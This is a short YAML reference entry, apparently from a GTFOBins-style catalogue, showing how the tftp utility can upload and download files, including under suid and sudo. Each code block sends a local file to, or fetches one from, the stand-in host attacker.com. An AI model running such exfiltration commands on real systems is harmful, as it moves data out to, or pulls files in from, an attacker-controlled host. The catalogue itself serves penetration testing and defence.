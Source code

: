 ```yaml
---
functions:
  file-upload:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        put file_to_send
  file-download:
    - description: Fetch a remote file from a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        get file_to_get
  suid:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        ./tftp $RHOST
        put file_to_send
  sudo:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        sudo tftp $RHOST
        put file_to_send
---
```


